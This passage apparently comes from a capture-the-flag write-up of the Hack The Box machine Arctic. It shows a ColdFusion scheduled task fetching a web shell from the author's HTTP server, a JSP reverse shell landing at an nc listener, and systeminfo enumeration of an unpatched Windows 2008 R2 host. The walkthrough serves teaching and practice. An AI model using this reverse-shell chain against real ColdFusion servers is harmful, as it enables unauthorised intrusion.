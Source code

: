 On hitting Submit, it shows the task, and I can then click the document with the green circle to run the task now:

![image-20200513083108260](https://0xdfimages.gitlab.io/img/image-20200513083108260.png)

There’s contact at my webserver:

```

root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.11 - - [13/May/2020 08:46:34] "GET /cfexec.cfm HTTP/1.1" 200 -

```

Now if I refresh `http://10.10.10.11:8500/CFIDE/`, I see the shell:

![image-20200513090504605](https://0xdfimages.gitlab.io/img/image-20200513090504605.png)

#### Execute Shell

Clicking on the `.jsp` returns a shell at my `nc` listener:

```

root@kali# rlwrap nc -nvlp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.11.
Ncat: Connection from 10.10.10.11:49774.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
arctic\tolis

```

I could get `user.txt` here as well.

## Priv: tolis –> system

### Enumeration

I looked around the file system and didn’t see much interesting outside of ColdFusion. Running `systeminfo` shows that this is a Windows 2008 R2 server with no hotfixes applied:

```

C:\>systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 
System Boot Time:          14/5/2020, 9:38:49 
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
```